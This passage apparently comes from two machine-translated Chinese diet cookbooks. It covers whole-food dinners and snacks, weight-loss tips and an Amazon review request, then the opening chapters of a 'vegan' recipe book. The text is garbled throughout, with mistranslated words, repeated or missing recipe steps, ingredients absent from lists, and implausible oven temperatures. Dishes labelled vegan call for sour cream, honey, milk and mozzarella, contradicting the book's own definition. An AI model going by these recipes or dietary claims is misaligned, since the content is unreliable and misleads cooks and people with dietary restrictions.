- 半杯莎莎莎酱
- 1 1/2 杯菠菜叶
- 3 汤匙酸奶油

将油加入大平底锅中，中大火加热。加入玉米和洋葱，炒至变色。将米饭和鸡肉加入锅中，炒至热透。

离火，拌入酸奶油和莎莎莎酱。打开薄饼，放入菠菜叶，在薄饼中间放上约 1/3 杯混合物并排成直线。现在折叠薄饼顶部，向上折底部，然后卷起。上菜。

## 西芹辣椒沙拉

配料：（3 人份）

- 4 根西芹
- 1 汤匙柠檬汁
- 2 颗浸泡过的去核椰枣
- 1/8 茶匙辣椒片
- 1 汤匙柠檬皮屑
- 1/8 杯柠檬汁
- 1/4 杯切碎的欧芹
- 1 汤匙芝麻酱
- 1/8 茶匙海盐
- 适味适量的新鲜薄荷
- 8-10 颗切碎并烤过的杏仁

取椰枣和浸泡过它的水放入搅拌机中。现在加入芝麻酱、柠檬汁、盐和辣椒。搅拌至顺滑。将搅拌好的食材放入碗中，加入剩余食材即可上菜。

# 第 6 章：晚餐食谱

以下晚餐食谱将让你在一天结束时感到饱足。第二天可以享用剩菜做午餐，或在晚上再吃一次。

## 意面蔬菜烤

配料：（4 人份）

- 1/2 磅意面
- 1 1/2 杯切碎的蔬菜
- 半 汤匙海盐
- 半罐切碎番茄
- 半个南瓜，制泥
- 1/4 茶匙黑胡椒
- 一小撮混合香料
- 2 半杯马苏里拉奶士

将意面加入沸水锅中并搅拌。煮约 8 分钟。同时，将烤箱预热至 350 华氏度（175℃）。沥干意面放入耐碗中，加入南瓜泥、番茄和蔬菜拌匀。现在加入奶士，烤约 40 分钟，或直到热透。上菜。

## 番茄豆子辣椒汤

配料：（3 人份）

- 1 个小罐切碎番茄
- 1 汤匙橄榄油
- 1 罐黑豆
- 半罐斑豆豆
- 半个切碎甜椒
- 1 根切碎的西芹
- 1 个切碎的红洋葱
- 2 瓣切碎的大蒜
- 2 撮盐
- 1/2 茶匙牛至里
- 3/4 茶匙熏制红椒粉
- 1 汤匙辣椒粉
- 1 汤匙香菜
- 1 茶匙孜然
- 半片月桂叶
- 1 杯水
- 1 茶匙柠檬汁

将橄榄油放入厚底锅或荷兰锅中加热，然后加入胡萝卜、洋葱、甜椒、西芹和 1 小撮盐，搅拌。炒至蔬菜变软，或约 5 分钟。

现在加入红椒粉、辣椒粉、大蒜、牛至里孜然，搅拌。持续搅拌约 1 分钟。现在加入番茄、斑豆豆和黑豆、水和半片月桂叶。搅拌，然后在偶尔搅拌的同时慢煮约 15 至 20 分钟。加入香菜，搅拌，加入剩余的盐，再次搅拌即可上菜。

## 蔬菜法士塔（Fajitas）

配料：（2 人份）

- 2 个切片甜椒
- 115 克切片蘑菇
- 1 个切片洋葱
- 1 根墨西哥小米辣椒
- 1 茶匙混合香料
- 1 汤匙融化的黄油
- 1 汤匙烹调油
- 半个柠檬的汁
- 3 张薄饼

在锅中中大火加热油，热后加入甜椒和洋葱。然后在小碗中，加入黄油、香料和柠檬汁搅拌。当甜椒变色时，加入香料混合物和蘑菇并搅拌。煮约 3 分钟，然后直接食用或搭配薄饼食用。

## 慢锅版牛肉蔬菜炖

配料：（3–4 人份）

- 1/2 磅牛肉炖肉，切成块
- 750 克块状土豆
- 一小撮盐
- 1 1/2 茶匙红酒醋
- 170 克切四份的蘑菇
- 3 片切片大蒜
- 2 个切碎的胡萝卜
- 3/4 汤匙番茄酱
- 6 盎司珍珠洋葱
- 1 1/2 汤匙日味酱（tamari）
- 1/4 茶匙黑胡椒

将土豆放入慢锅中，在平底锅中，加入盐和牛肉。中大火烹饪，搅拌直到肉变色。牛肉煎好后，将其放在土豆上。现在在平底锅中煎蘑菇直到变色，然后将其加入慢锅中。

将洋葱、胡萝卜和大蒜放入慢锅中。将醋、番茄酱、日味酱和胡椒放入碗中搅拌均匀，然后倒入慢锅中。用低火慢约 8 小时，在牛肉变软后上菜。

## 牛肉面

配料：（3人份）

- 半磅牛绞肉末
- 半罐切碎的番茄
- 一小把蘑菇
- 半个青椒
- 1 杯玉米粒
- 1 个小洋葱（切碎）
- 半包面条
- 1 杯奶士碎（切碎）

将牛肉放入底较厚的汤锅中，用中火加热，经常翻炒直到牛肉煮熟。加入调料、青椒、洋葱、蘑菇和玉米，搅拌均匀。现在将面条放在顶部，然后取出奶士撒在面条上。将番茄酱淋在奶士上，盖上锅盖。用中至高火烹饪约 1 小时，即可上桌。

## 烧烤鸡

配料：（4人份）

- 2 块鸡胸（去骨去皮，切成薄条）
- 4 块鸡腿（去骨去皮）
- 1.5 汤匙甜红椒粉
- 3/4 汤匙盐
- 半茶匙干大蒜粉
- 2/3 杯烧烤酱
- 1/3 杯烧烤酱（备用）
- 1/8 茶匙辣椒粉

将大蒜粉、辣椒粉、红椒粉和盐放入碗中搅拌。将混合物撒在鸡胸肉和鸡腿上，烤约 2 分钟以封汁。然后在锅中烹饪鸡肉至刚熟，放回烤架下，然后淋上烧烤酱。

烹饪一分钟，然后配上额外的酱汁享用。

# 第 7 章：全食零食

你将在下方找到食谱既美味又有营养，但脂肪含量并不高。你可以将其作为全食饮食的一部分，每天享受一或两次。

## 葡萄燕麦饼干

配料：（可制作 20 个）

- 半杯浸泡过的干葡萄
- 半杯干葡萄
- 1 杯麦片
- 四/4 茶匙肉豆蔻
- 四/4 茶匙盐
- 1 汤匙肉桂
- 半杯腰果酱或花生酱
- 1 汤匙泡打粉
- 1 汤匙香精

打开烤箱，温度调至 350 华氏度。将3/4 杯麦片放入食物处理器中，脉冲搅拌直到磨成细粉。现在准备一个碗，加入肉桂、泡打粉、肉豆蔻、燕麦粉和盐并搅拌均匀。

在食物处理器中，加入浸泡过的干葡萄和约 1/4 杯浸泡水。现在将葡萄打成泥，然后加入香精、花生酱再次打成泥。取葡萄混合物、未浸泡的葡萄以及剩余的麦片，加入燕麦混合中。搅拌均匀，确保所有的燕麦粉混合物都已吸收。

用茶勺取 1 汤匙混合物放在烤盘上，确保饼干之间有间距。间隔 1 英许即可。用勺子背稍稍压扁混合物，烤最长 12 分钟，或直到饼干底部略微变褐。

转移到冷却架上冷却。即可享用。

## 一份水果

享受你喜欢的水果，但尽量不要一直吃同一种水果。你吃的水果种类越丰富，受益的营养就越多。

水果可以生吃、冷冻或干燥食用，但要注意任何添加剂、防腐剂、盐和糖。如果有疑问，新鲜或冷冻的总是最好的。

## 水果和爆米花混合物

配料：（6人份）

- 2 3/4 杯干果
- 2 杯无盐爆米花

将所有配料加入碗中，分装成小份。将分量放在容器中带去上班。

## 花生酱南瓜饼干

配料：（可制作 20 个）

- 1/4 杯卷状麦片
- 半杯无盐花生
- 一小撮盐
- 1/4 杯无糖可可粉
- 1/4 杯光滑花生酱
- 半杯切碎的椰枣肉
- 1 汤匙香精
- 1/8 杯南瓜泥

预热烤箱至 375 华氏度。将麦片和花生放入碗中混合。现在脉冲搅拌直到原料混合成粗粒状物。加入盐和可可粉，再次脉冲搅拌均匀。

现在将花生酱和南瓜泥加入混合碗中，搅拌直到混合。加入椰枣肉和香精再次搅拌。加入干原料，缓慢搅拌直到形成浓稠的面团。

取一汤匙面团揉成球放在饼干板上。重复此操作直到用完所有面团，间距保持约 1 英许。用叉子压平混合物。现在将面团放入烤箱，烤约 10-12 分钟，或直到干燥。冷却后即可享用。

## 酸奶

一小罐或一盒酸奶可以是非常令人满意的零食。确保你吃的是没有添加许多或任何糖的天然酸奶。加入一些小水果块，味道更特别。

## 羽衣蓝片

配料：

- 1 汤匙橄榄油
- 四/4 茶匙盐
- 4 杯压实的羽衣蓝叶

预热烤箱至 375 华氏度。修剪并洗净羽衣蓝，然后铺在烤盘上。现在取橄榄油，洒在叶子上。用手抓匀叶子，使油分布均匀。将叶子单层铺回烤盘上。

烤叶子约 5 分钟，然后翻面。现在再烤 5 分钟，直到叶子开始变褐变脆。从烤箱中取出叶子，加入盐并拌匀。即可享用。

# 第 8 章：提示与技巧

开始新的健康饮食计划可能并不容易，但如果你确保自己能享受美味的餐点和零食，你就不会觉得错过了什么。书中包含的全食食谱得益于它们所含的天然纤维来源，应该让你感到饱腹。

你当然欢迎尝试你自己的食谱，或者对书中的食谱进行一些更改。你摄取的食物种类越多样，你的身体获得的营养就越多。

## 水

请确保你喝充足的水，最好是每天 8 杯。

这可以帮助你减肥，因为它会让你更有饱腹感，而且让你感到压力减轻很多。

## 运动

如果你不想运动，不需要运动，因为只要你吃健康的饮食，就能减轻体重。如果你增加运动，那么会减轻得更多。我不建议你同时开始新的运动和健康饮食计划，先解决好饮食，然后缓慢地引入运动。

## 你的减重

如果你参加全食计划以减肥，那么你可能会减轻一些体重。当你第一次开始全食计划时，你会减轻很多，但一段时间后减重速度会变慢。这是正常的，只要你坚持健康饮食。

## 如果你想再次执行计划

全食饮食是一种非常可持续的饮食，会让你感觉健康很多。你可以一辈子都吃全食饮食，因为它非常健康。如果你觉得这种饮食很难，或者想偶尔吃其他食物，请确保你维持一种健康的、但仅含有不健康的饮食。

## 结论

再次感谢下载本书！

我希望这本书能够帮助你开始期待美味且营养的全食饮食。

下一步是采购你需要的所有原料，就可以开始烹饪了！

最后，如果你喜欢这本书，我想请你个忙，你是否愿意在亚马逊上为这本书留评价？将不胜感激！

[点击此处在亚马逊上为这本书留评价!]

我想尽可能接触更多的人，评价将有助于我实现这一目标。感谢并祝你好！

另外，记得关注我的 Facebook 页面并加入关于健康和我最新新书的讨论！

如果你喜欢这本书，请查看系列中的下一本书 ...

等一下，如果你还没有看关于如何通过这个 3 周饮食计划减肥的介绍视频，你可能想看一看。[点击此处观看]。

# 素食饮食挑战

## 在预算内，通过这些美味的快捷餐开启素食饮食

关于我最喜欢的饮食方式的额外信息

此外可在 KindleBookSpot.com 获取更多免费和特价书籍

## 目录

引言

第1章 – 无肉小吃与前菜

第2章 – 素食早餐食谱

第3章 – 素食午餐食谱

第4章 – 素食晚餐食谱

第4章 – 素食甜点

结论

## 引言

感谢你的下载，祝贺你下载了《素食食谱：在预算内，通过这些美味的快捷餐开启素食饮食》。

这本书包含了关于如何过上素食生活的验证步骤和策略。每个人都知道蔬菜的重要性，它们是更高质量、更健康生活的根源。但肉类有一种特殊性，它们在盘中还是在整个社会中都是地位的象征。本食谱旨在通过丰富的口味变化来改变这一切，对蔬菜的重视程度不亚于任何普通的猪肉肴。

这本食谱将向你介绍精美且口味丰富的各种菜肴，证明你可以提升蔬菜的声誉，让它们成为餐桌的主角。此外，它们易于，而且对预算非常友好。

那么，素食饮食包含什么？它主要包含植物，包括蔬菜、坚果、水果和谷物。请记住，素食者不吃任何来自动物的东西，包括它们的产品，如鸡蛋和乳制品。

## 这本书将教你：

- 哪些食物应该是你的朋友，哪些不是
- 为什么要吃蔬菜
- 早餐、午餐、晚餐和零食食谱
- 以及更多内容！

你还在等什么？现在就开始阅读，从今天起改变你的生活方式吧！

再次感谢下载本书，希望你喜欢！

不要忘记查看我最喜欢的饮食方式之一，并学习我在底部使用的、通过3周饮食法快速减掉顽固多余脂肪的策略。

# 第1章 – 无肉小吃与前菜

吃素食有一种这种感觉，让人想放弃并坚持坚持由肉类、甜点和加工食品组成的传统良好饮食生活方式。但谁说你不能再次享受吃它们的乐趣呢？只是这次要使用素食食材，并以素食的方式来。

## 1. 咸味蛋糕 (Cake Salé)

食材：

- 125g面粉
- 1茶匙泡打粉
- 50ml油
- 50ml杏仁奶
- ¼杯苹果酱等于1个鸡蛋
- 50g素食羊奶奶士
- 50g橄榄
- 盐和胡椒

做法：

1. 预热烤箱至300℉。在玛芬纸上油并撒粉。
2. 将面粉和泡打粉筛入大碗。混合油、牛奶和苹果酱。充分搅拌加入奶士和橄榄。用盐和胡椒调味并混合。
3. 盛入玛芬纸中，烘烤15分钟，直到升起且颜色呈微褐色。

## 2. 芝士吐司

食材：

- 2片厚切面包
- 1个小红洋葱，切碎
- 100g素食切达尔奶士
- 1茶匙粗粒芥末
- 4汤匙素食黑啤酒
- 素食伍斯特斯特汁

做法：

1. 烤面包片并让其冷却。
2. 混合红洋葱、奶士、芥末、黑啤酒和伍斯特斯特汁，堆放在烤好的面包上。
3. 放在格烤炉模式下烹饪至金黄色。
4. 搭配一杯茶食用。

## 3. 血橙配胡萝卜沙拉

食材：

- 10根中等胡萝卜，切片
- 3个血橙子
- 一少许糖
- 200ml橄榄油
- 50ml白酒醋
- 100g软素食羊奶奶士
- 豆瓣菜，洗净
- 盐和胡椒调味

做法：

1. 将胡萝卜纵向切得越薄越好。放入冷水碗中保持爽脆。备用。之后，在另一个碗中挤橙汁。
2. 制作酱汁，将糖和果汁混合在一起，直到果肉块破碎。倒入橄榄油和醋，用盐和胡椒调味。
3. 沥胡萝卜，淋上血橙混合物。揉碎羊奶奶士，最后在顶部放上豆瓣菜。

## 4. 红豆汤

食材：

- 3汤匙橄榄油
- 1瓣大蒜，去皮
- 1个洋葱，去皮
- 盐和胡椒调味
- 1茶匙粉孜然粉
- 1茶匙粉香菜粉
- 150g红豆
- 1升蔬菜汤
- 1/2个柠檬的汁
- 2汤匙碎欧芹

做法：

1. 在大汤锅中，加热橄榄油。加入大蒜、洋葱，并用盐和胡椒调味。烹饪8分钟或直到洋葱呈微金黄色。
2. 加入孜然粉、香菜粉、红豆和蔬菜汤。煮沸12分钟或直到红豆变软。
3. 离火并倒入入柠檬汁。撒上碎欧芹即可上桌。

## 5. 奶油酱汁调味芦笋和豆瓣菜

食材：

- 1瓣大蒜
- 2汤匙苹果醋
- 2汤匙全谷芥末
- 100ml酸奶油
- 15根芦笋
- 2把水芹菜
- 1个红洋葱，切丝

做法：

1. 将大蒜、苹果醋、芥末和酸奶油混合在一起。备用。
2. 与此同时，在大平底锅中，加热油并加入芦笋翻炒8分钟或直到变软。
3. 在托盘中，摆放芦笋、豆瓣菜和洋葱丝。淋上酱汁。这道菜配面包食用最好。

## 6. 腰果青果酱（Pesto）配红薯胡萝卜汤

食材：

- 2汤匙橄榄油
- 2个中等红薯，去皮并切丁
- 5根胡萝卜，去皮并切丁
- 3瓣大蒜，精细碎
- 1个大洋葱，切丁
- 新鲜生姜
- 盐和胡椒调味
- 1.2升蔬菜汤

腰果青果酱配方

- 平叶欧芹，细碎
- 新鲜香菜叶，细碎
- 1根柠檬草，细碎
- 1瓣大大蒜，细碎
- 100ml特级浸榨橄榄油
- 1汤匙碎腰果
- 1/2个青柠的汁
- 盐和胡椒调味

做法：

1. 在大汤锅中，加热橄榄油。加入红薯、胡萝卜、大蒜、洋葱、生姜、盐和胡椒。加入汤并煮沸。继续煮直到所有蔬菜变软。
2. 制作青酱，在食物处理器中混合欧芹、香菜、柠檬草、大蒜、橄榄油、腰果、青柠、盐和胡椒。搅拌直到混合物变得光滑蓬松。
3. 上菜时，将汤倒入新鲜香菜中。淋上一茶匙香菜和腰果混合物。食用。

## 7. 素食意面沙拉

食材：

- 7盎司多谷意大利面
- 1瓣大蒜，对半
- 1汤匙亚麻籽油
- 2个烤红椒
- 1汤匙意大利黑醋
- ½杯椰奶酸奶
- ¼杯新鲜罗勒叶
- 4杯婴儿芝麻菜
- 2盎司 Tofuti 奶油奶士

做法：

1. 按照制造商的说明准备意面。用冷水冲洗并沥干。
2. 与此同时，在食物处理器中，将大蒜、油和辣椒打泥。加入醋直到光滑。加入酸奶并脉冲混合均匀。转移到大碗中。将罗勒切成条加入碗中。将意面和罗勒加入酸奶混合物拌匀。


### 3. 在托盘中，摆放芝麻菜叶

放在意面混合物和 Tofuti 奶油奶士。

# 第2章 – 素食早餐食谱

正如古语所云，早餐是王。这些快速、简单且健康的早餐食谱将确保提供足够的能量让你到午餐。此外，它们对钱包很友好。享受吧！

## 1. 烤芦笋软奶士煎饼 (Frittata)

### 食材

- 12根芦笋
- 1½茶匙植物油
- 2小撮盐
- 3小撮黑胡椒
- 1杯苹果酱
- 4汤匙橄榄油
- 150g低脂奶油奶士

### 做法

1. 在芦笋淋上植物油并用盐和胡椒调味。格烤3-4分钟，确保不要煮过，因为你希望芦笋有一点脆度。
2. 用叉子搅拌苹果酱。加入盐和胡椒。
3. 在小煎底锅中，加热橄榄油并倒入苹果酱混合物。当煎饼半凝固时，将芦笋和软奶士放在顶部。调小火，将煎饼滑到上菜盘上。
4. 最后在顶部淋上一些橄榄油。立即食用。

## 2. 无小麦花菜奶士烤

### 配料

- 1 整颗花菜
- 2 汤匙枫糖
- 1 汤匙橄榄油
- 盐和黑胡椒，适量
- 350g 酸奶油
- 50g 素食格鲁耶尔奶士，碎
- 2 茶匙第戎森芥末
- 1 汤匙 素食帕玛森味奶士，碎
- 1 汤匙新鲜细葱，切碎

### 做法

1. 将烤箱预热至 375 F。将花菜切成小朵，放入碗中与枫糖和橄榄油拌匀。加入盐和黑胡椒调味。放入烤盘中烤 15分钟。
2. 将酸奶油、格鲁耶尔奶士和芥末放入碗中，加入烤好的花菜。
3. 撒上帕玛森味奶士，放回烤箱。再烤 10 分钟。撒上细葱即可上桌。

## 3. 菠菜吐司

### 配料

- 250g 杏仁粉
- 1 ½ 茶匙 无筋烘焙粉
- ½ 茶匙 凯尔海盐
- ¼ 茶匙 小苏打
- 2 束英国菠菜，焯水、沥干并切去梗茎
- 60ml 无添加剂椰奶
- 1 汤匙 苹果醋
- 1 茶匙 新榨柠檬汁
- 1 根香蕉 = 2 个鸡蛋（替代鸡蛋用）
- 植物油

### 做法

1. 将烤箱预热至 345 F。在吐司模具上涂抹油并铺上烘焙纸。
2. 在大碗中混合面粉、烘焙粉、盐和小苏打。在破壁机中将菠菜叶与椰奶、醋、柠檬汁、香蕉和植物油一起搅拌。
3. 将混合物盛入吐司模具中，烤 45 分钟。取出后放在冷却架上冷却。即可上桌。

## 4. 南瓜鹰嘴豆派

### 配料

- 1 茶匙 香菜籽
- 1 茶匙 孜然粉
- 1 茶匙 甜辣椒粉
- 1 茶匙 孜然籽
- 1.2 茶匙 肉桂粉
- 6 汤匙 橄榄油
- 绿南瓜，去皮并切块
- 2 根小红洋葱
- 大蒜
- 80g 杏仁，去皮
- 煮熟的鹰嘴豆，沥干
- 50g 葡萄干
- ½ 束 香菜
- 2 汤匙 柠檬汁
- 无盐黄油
- ¼ 杯 苹果酱
- 30g 芝麻籽
- 石榴籽
- 3 汤匙 流蜂蜜

### 做法

1. 将烤箱预热至 375 F。在锅中煎香香菜籽和孜然籽。在研钵和研杵中捣碎并磨成粉，加入辣椒粉、孜然粉、肉桂粉、半量橄榄油和一许盐。
2. 将南瓜放入烤盘中，加入调味油混合物。烤 25 分钟。
3. 同时，在一个较大的煎锅中加热剩余的橄榄油，翻炒洋葱。炒至焦糖色。加入蒜和杏仁煎 3 分钟。取出。加入鹰嘴豆、葡萄干和南瓜并压碎。加入香菜和柠檬汁，根据口味调味。
4. 铺一张饼皮，刷上融化的黄油，再叠上另一层。盛入四分之一的南瓜馅，折起侧边，卷起并扭成螺旋状。放在烤盘盘上。
5. 在顶部刷上苹果酱并撒上芝麻籽。烤 20 分钟，淋上蜂蜜和石榴籽。

## 5. 菠菜意式煎蛋饼配番茄莎莎

### 意式煎蛋饼配料

- 1 汤匙 特级初榨橄榄油
- 2 瓣大蒜，切末
- 1 个小洋葱，切末
- 1 包菠菜，解冻并充分沥干
- 2 根香蕉 = 替代鸡蛋用
- 1/3 杯无脂牛奶
- 1/2 杯 碎减脂马苏里拉奶士

### 莎莎配料

- 4 个 子番茄，切碎
- 1 瓣大蒜，切末
- 2 根小葱，切末
- 1 汤匙 新鲜柠檬汁
- 2 汤匙 新鲜香菜，切末
- ¼ 茶匙 盐
- 1/8 茶匙 磨黑胡椒

### 做法

1. 制作意式煎蛋饼：将烤箱预热至 350 F。在不粘锅中加热油。加入大蒜和洋葱翻炒 3 分钟。放入菠菜并将火力至小火。
2. 在碗中压碎香蕉，倒入牛奶，搅拌打至起泡沫。将混合物淋在菠菜上煮 5 分钟。撒上奶士，放入烤箱烤 8 分钟。
3. 制作莎莎：在一个大碗中，混合番茄、大蒜、小葱、新鲜柠檬汁、香菜、盐和黑胡椒。淋在煎蛋饼上即可上桌。

## 6. 蜂蜜釉小面包

### 配料

- 300g 普通白筋面粉
- 50g 糖
- 1.5g 速发酵母
- 200g 牛奶
- 6g 盐
- 植物油

### 内馅

- 25g 干燥混合糖果干
- 75g 蜜葡萄干
- 橄榄油
- 50g 红糖

### 糖釉配料

- 蜂蜜，融化

### 做法

1. 在大碗中放入面粉并挖一个空洞。将糖和酵母放入洞中，然后倒入牛奶。盖好静置一小时。
2. 将食材聚集成一个大球并揉面。在大碗中将面团揉成大球并揉面。
3. 在大碗中将面团揉成大球并揉面。
4. 放入烤盘，烤箱烤 20 分钟。
5. 刷上融化的蜂蜜即可。

## 7. 菠菜燕麦

### 配料

- 1/4 杯 仁奶
- 1/2 汤匙 花生
- 1/2 杯 水
- 1/4 杯 燕麦
- 1 汤匙 椰奶

### 做法

1. 在碗中混合燕麦、椰奶、水和仁奶。静置 10 分钟。
2. 加入配料并拌匀。
3. 享即可。

# 第3章 – 素食午餐食谱

## 1. 茄烤茄茄意式奶士

### 配料

- 橄榄油
- 2 个大红洋葱，去皮并切片
- 盐和黑胡椒
- 2 瓣大蒜，去皮并捣成泥
- 1 茶匙 孜然粉
- 2 茶匙 香菜粉
- 400g 番茄
- 200g 马苏里拉奶士

### 做法

1. 将烤箱预热至 400 F。
2. 制作奶士时，去皮。
3. 在煎锅中加热橄榄油，翻炒洋葱。用盐和黑胡椒调味。加入番茄。
4. 在另一个煎锅中加热剩余油并裹上茄子。
5. 组装茄子、罗勒和马苏里拉奶士。

## 2. 辛味烤胡萝卜配芝麻和奶士

### 配料

- 1 茶匙 孜然籽
- 1 汤匙 香菜籽
- 1 茶匙 黑洋葱籽
- 2 汤匙 芝麻籽
- 4 汤匙 花生油
- 1 kg 胡萝卜，切薄
- 1 汤匙 流蜂蜜
- 2 根 绿辣椒，去籽并切片
- 盐和黑胡椒
- 200g 帕玛森奶士

### 酱汁

- 半个柠檬汁
- 芝麻油
- 花生油

### 做法

1. 将烤箱预热至 200 F。在干煎锅中加入孜然籽和香菜籽。煎烤 1 分钟后粗碎。
2. 用同样的方法煎烤洋葱籽和芝麻籽。将这些食材与花生油、胡萝卜、蜂蜜、辣椒混合。用盐和黑胡椒调味。放入烤盘中烤 40 分钟并冷却。
3. 制作酱汁，混合所有食材并加入胡萝卜。拌匀即可。

## 3. 烘烤调味蔬菜

### 配料

- 橄榄油
- 2 个 红洋葱，去皮并切片
- 盐和黑胡椒
- 2 瓣大蒜，去皮并捣成泥
- 1 茶匙 孜然粉
- 2 茶匙 香菜粉
- ¼ 茶匙 丁香粉
- ½ 茶匙 豆蔻
- 1 茶匙 红酒醋
- 1 茶匙 披萨
- 400g 罐装碎番茄
- 1 汤匙 糖
- 3 个 红灯椒，切四份
- 3 根 西葫芦，切片
- 2 根 茄子，切片
- ¼ 杯 苹果酱

### 做法

1. 将烤箱预热至 350 F。在一个较大的煎锅中用中低火加热橄榄油，加入洋葱。用盐和黑胡椒调味并炒至软化。
2. 加入大蒜、孜然、香菜、磨好的丁香和香料。搅拌1分钟，然后加入醋、牛至、番茄和糖。留火慢煮。
3. 与此同时，在平底锅上加热少许油，分批煎烤红椒、西葫芦和茄子。转移到番茄锅中，慢煮10分钟。将蔬菜放入烤箱中烤15分钟。
4. 从烤箱中取出，拌入苹果酱。用盐和胡椒调味。送回烤箱再烤15分钟即可上菜。

## 4. 烤蔬菜

### 食材

- 大洋葱，切碎
- 薄皮南瓜
- 茴茴，修剪
- 蘑菇
- 胡萝卜
- 欧芹
- 4 瓣大蒜
- 4 汤匙橄榄油
- 盐和胡椒
- 8 颗椰枣，对半切并去核
- 8 颗黑橄榄，对半切并去核
- 硬豆腐，切块

### 步骤

1. 预热烤箱至 400 F。将南瓜、茴茴、蘑菇、胡萝卜和欧芹放入烤盘中。
2. 将大蒜加入蔬菜中，用勺淋油并洒入混合物。用盐和胡椒调味。
3. 将混合物放入烤箱，搅拌均匀并烤制。20分钟后，加入椰枣、黑橄榄和豆腐。拌匀后送回烤箱。即可上菜。

## 5. 菠菜番茄鹰嘴豆咖喱

### 食材

- 1 汤匙葵花油
- 1 瓣大蒜，切碎
- 1 个小洋葱，细切碎
- 新鲜生姜，切碎
- 1 汤匙 Bart Veerasummy Moglai 喱酱
- 400g 罐装碎番茄
- 410g 罐装鹰嘴豆
- 250g 菠菜，切
- 天然酸奶
- 4 汤匙新鲜香菜，切碎

### 步骤

1. 在中型汤锅中加热油，放入大蒜、洋葱和生姜翻炒5分钟，直到软化变金黄。
2. 混合喱酱并加入碎番茄。慢煮5分钟直到酱汁变稠。
3. 拌入鹰嘴豆煮沸10分钟。拌入菠菜，慢煮至煮熟。
4. 盛上一勺酸奶，并淋上香菜装饰。

## 6. 墨西哥千层饼

### 食材

- 300 克蘑菇
- 1 个大洋葱，去皮并切成四份
- 2 瓣大蒜，压碎
- 1 根绿辣椒，去籽
- 1 个绿青椒，去籽
- ½ 茶匙磨肉桂粉
- 1 茶匙磨孜然粉
- 1 茶匙磨香菜粉
- 4 汤匙油
- 1 汤匙番茄膏
- 400g 罐装红腰豆
- 1 包墨西哥饼皮
- 500g 俄奶油 (crème fraiche)
- 50g 奶酪碎蔬菜

### 步骤

1. 预热烤箱至 445 F。
2. 在食物机中，将蘑菇、洋葱、大蒜、辣椒、青椒、肉桂、孜然、香菜和油混合，直到混合看起来像肉末。
3. 在大平底锅中用大火煎。直到混合物开始上色。加入番茄膏和豆子。用盐和胡椒调味。
4. 将一半混合物盛入烘焙盘并放入饼皮中。加入一些俄奶油，并用另一张饼皮覆盖。撒上奶酪碎，放入烤箱烤15分钟。即可上菜。

## 法式洋葱汤

### 食材

- 2 汤匙特级初榨橄榄油
- 5 杯洋葱切片
- 2 片月桂叶
- 1 茶匙干百里香
- 1/8 茶匙盐
- 5 杯蔬菜高汤
- 2 杯水
- 2 片全麦面包，烤过并对半切开
- 4 茶匙磨亚亚籽
- Tofutti 奶酪
- 磨黑胡椒

### 步骤

1. 用中火加热锅。加入油并让加热1分钟。加入洋葱、月桂叶、百里香和盐。搅拌并烹饪10分钟，直到洋葱均匀呈棕色。
2. 加入 ½ 杯高汤，用大火慢煮3分钟。加入剩余的高汤和水。慢煮5分钟。取出并丢弃月桂叶。
3. 将汤盛入大碗中，放半片烤吐司。在每片吐司上撒上1 茶匙亚籽。顶部铺上 Tofutti 奶酪。
4. 在距离热源6英寸处将汤火烤2 分钟，直到奶酪起泡。注意不要烤焦奶酪。用胡椒调味。

# 第 4 章 – 素食晚餐食谱

以下素食晚餐食谱看起来如此华丽，让每个人都认为你在厨房里苦干力作，而且预算非常吃紧。但事实是，你甚至可以用剩下的蔬菜做出一道全新的素食菜肴。

## 1. 烤蔬菜意大利饭布丁

### 食材

- 1 升蔬菜高汤
- 一小撮藏花
- ¾ 杯油浸炭烤混合青椒
- 2 个红洋葱，切楔形
- 1 根茄子，切块
- 1 根西葫芦，切片
- 175g 樱桃番茄，对半切
- 2 瓣大蒜，切碎
- 1 根韭葱，切碎
- 1 茶匙辣椒碎
- 250g 意大利饭米
- 100ml 素食白葡萄酒
- 175g 素食马苏里奶酪，切片

### 步骤

1. 预热烤箱至 400 F。将蔬菜高汤煮沸并加入藏花。滤掉青椒并保留油。
2. 在烤盘中，拌入洋葱、茄子和西葫芦。烤20分钟。取出加入樱桃番茄再烤15分钟。从烤箱中取出并完全冷却。
3. 与此同时，煎炒大蒜、韭葱和辣椒碎。加入米翻炒2分钟。加入葡萄酒并煮沸。加入一勺高汤，继续搅拌直到液体混合物被吸收。
4. 放入 350 F 的烤箱中。准备一个吐司模具，将一半意大利饭放入模具中。顶部铺上马苏里奶酪和青椒。将蔬菜均匀铺开。
5. 烤40分钟。从烤箱中取出即可上菜。

## 2. 蘑菇豆腐

### 食材

- 1 汤匙葵花油
- ½ 茶匙四川花椒
- 5 瓣大蒜，压碎
- 新鲜生姜，磨碎
- 1 茶匙辣椒碎
- 1 汤匙豆酱
- 250g 蘑菇
- 2 茶匙意大利醋
- 1 汤匙酱油
- 400g 硬豆腐，切块
- 1 茶匙麻油
- 葱，细切

### 步骤

1. 在锅中大火加热油，加入四川花椒。
2. 转中火，加入豆酱、蘑菇和醋。偶尔搅拌5分钟。
3. 拌入豆腐即可上菜。

## 3. 椰子豆咖喱

### 食材

- 3 汤匙植物油
- ⅓ 茶匙芥末籽
- 10 片新鲜咖喱叶
- 1 个红洋葱，细切
- 6 瓣大蒜，切碎
- ½ 茶匙辣椒粉
- 2 茶匙香菜粉
- 1 茶匙孜然粉
- ½ 茶匙姜黄粉
- 盐
- 7g 豆角
- 400g 罐装腰豆
- 60g 椰子
- 1 茶匙细糖
- 3 茶匙罗望子

### 步骤

1. 在大型不粘锅中加热油并加入芥末籽。种子停止跳动后，立即加入咖喱和洋葱。煮至洋葱透明。
2. 加入大蒜和香料并加少许水。煮2分钟。
3. 加入豆角和椰子。再加一杯水煮沸。拌入糖和罗望子。调整调味。上菜。

## 4. 烤坚果绿蔬菜

### 食材

- 2 个绿椒，切片并去籽
- 2 根韭葱，切碎
- 3 根西葫芦，切片
- 2 汤匙橄榄油
- 130g 绿色青酱

### 顶部配料

- 1 汤匙橄榄油
- 25g 蔬菜帕玛森奶酪，碎
- 50g 去壳开心果
- 1 片小麦面包

### 步骤

1. 预热烤箱至 440 F。在碗中，将绿椒、韭葱和西葫芦与油和青酱混合。
2. 将蔬菜放入烤盘中烤30分钟。
3. 制作配料，在食物机中将油、奶酪碎、开心果和面包混合。在蔬菜上撒上坚果碎，再烤10分钟。即可上菜。

## 5. 库小米混合蔬菜

### 食材

- 500g 库小米
- 1 茶匙海盐
- 600ml 水

### 制作蔬菜炖锅

- 1.5 升蔬菜汤
- 6 瓣大蒜，拍碎
- 新鲜迷迭香
- 8 粒胡椒
- 2 叶月香叶
- 2 根红薯，切成长条
